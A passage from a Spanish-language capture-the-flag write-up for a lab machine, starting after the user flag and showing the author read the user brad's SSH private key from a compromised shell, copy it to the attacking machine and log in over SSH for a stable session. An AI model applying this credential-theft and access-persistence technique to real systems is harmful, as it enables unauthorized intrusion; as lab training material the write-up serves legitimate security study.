 Y ahí tenemos ya nuestra **flag de user**


## Escalada de privilegios

Toca buscar la forma de convertirse en root.

~~~bash
bash-5.1$ ls -la
ls -la
total 3868
drwxr-xr-x 4 brad brad    4096 Nov 19 00:51 .
drwxr-xr-x 3 root root    4096 Oct 31 18:14 ..
lrwxrwxrwx 1 root root       9 Nov 19 00:51 .bash_history -> /dev/null
-rw-r--r-- 1 brad brad     220 Oct 26 08:35 .bash_logout
-rw-r--r-- 1 brad brad    3526 Oct 31 18:12 .bashrc
drwxr-xr-x 3 brad brad    4096 Nov  1 18:52 .local
-rw-r--r-- 1 brad brad     807 Oct 26 08:35 .profile
-rw-r--r-- 1 brad brad      55 Nov 18 02:00 shell.sh
drwx------ 2 brad brad    4096 Oct 29 11:13 .ssh
-rwx------ 1 brad brad      33 Oct 31 11:18 user.txt
-rw-r--r-- 1 brad brad     165 Oct 31 17:55 .wget-hsts
bash-5.1$ ls -la .ssh
ls -la .ssh
total 16
drwx------ 2 brad brad 4096 Oct 29 11:13 .
drwxr-xr-x 4 brad brad 4096 Nov 19 00:55 ..
-rw-r--r-- 1 brad brad  564 Oct 29 11:09 authorized_keys
-rw------- 1 brad brad 2590 Oct 29 11:09 id_rsa
bash-5.1$ cat id_rsa    
cat id_rsa
cat: id_rsa: No such file or directory
bash-5.1$ cat .ssh/id_rsa
cat .ssh/id_rsa
~~~

Ahí como se puede ver, descubrimos una clave privada, la idea es copiar el contenido de la misma para replicarla en la máquina atacante, recordad que debe tener permiso 600.

La única finalidad de esto, es conectarnos vía SSH y tener una terminal interactiva sin necesidad de tratamiento. Así también podemos recuperar el acceso rápidamente en caso de cualquier problema (de hecho se me colgó la TTY de la reverse shell y tuve que volver a lanzarla 😂).

Nos conectamos vía SSH al puerto 22 que vimos que estaba abierto, con la clave privada y con el usuario *brad* que descubrimos:

~~~bash
❯ ssh -i id_rsa brad@192.168.0.25
Linux crazymed 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Nov 18 02:33:45 2022 from 192.168.0.24
-bash-5.1$ 
~~~
